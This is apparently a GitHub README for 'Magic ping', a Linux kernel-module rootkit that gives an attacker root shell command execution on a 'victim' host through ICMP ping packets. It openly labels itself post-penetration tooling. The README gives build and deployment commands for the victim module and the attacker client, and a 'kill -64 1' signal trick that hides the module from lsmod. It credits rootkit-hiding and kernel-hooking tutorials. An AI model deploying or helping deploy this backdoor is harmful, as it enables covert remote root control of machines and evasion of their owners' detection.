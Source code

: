 Magic ping - shell execution

<div align="center">

![Ping - ICMPv4](https://img.shields.io/badge/Ping-ICMPv4-2ea44f) ![License - MIT](https://img.shields.io/badge/License-MIT-blue) 
![Security - Post penetration](https://img.shields.io/badge/Security-Post_penetration-yellow) 

![Tested on - 5.4.0-109-generic #123-Ubuntu x86_64 GNU/Linux](https://img.shields.io/badge/Tested_on-5.4.0--109--generic_%23123--Ubuntu_x86__64_GNU%2FLinux-orange)
![Tested on - 5.13.0-40-generic #45~20.04.1-Ubuntu x86_64 GNU/Linux](https://img.shields.io/badge/Tested_on-5.13.0--40--generic_%2345~20.04.1--Ubuntu_x86__64_GNU%2FLinux-orange)
</div>

## Features:

* Romete shell command execution by ping.
* Hiding (or Showing) Kernel Module from Userspace. 

## Asciinema Demo

[![asciicast](https://asciinema.org/a/7dceXAVrCSqyaNmvfiD6L51rM.svg)](https://asciinema.org/a/7dceXAVrCSqyaNmvfiD6L51rM)

## Compile 

**compile server(victim) kernel module:**

```bash
cd server && make
```

**Client(attacker):**

```bash
cd client && make
```

**Romete server (victim):**

```
sudo insmod server.ko
```

## Local attacker:

Need root privilege to send icmp packets for ping.
```
sudo ./client <victim ip address>
```

Then you can let remote victim execute whatever shell command you input as root privilege (some command may need full path).

## Hide(Show) remote kernel module:

Send signal 64 to show or hide:
```
kill -64 1
```

Use `lsmod` to check.


## Thanks && Reference：

* [Hacking the Linux Kernel Network Stack](http://phrack.org/issues/61/13.html)
* [Does tcpdump bypass iptables?](https://superuser.com/questions/925286/does-tcpdump-bypass-iptables)
* [linux-network-programming-ping.c](https://github.com/coding-fans/linux-network-programming/blob/master/src/c/icmp/ping/ping.c)
* [Given a git commit hash, how to find out which kernel release contains it?](https://unix.stackexchange.com/questions/45120/given-a-git-commit-hash-how-to-find-out-which-kernel-release-contains-it)
* [Linux Rootkits Part 5: Hiding Kernel Modules from Userspace](https://xcellerator.github.io/posts/linux_rootkits_05/)
* [Hooking Linux Kernel Functions, Part 2: How to Hook Functions with Ftrace](https://www.apriorit.com/dev-blog/546-hooking-linux-functions-2)
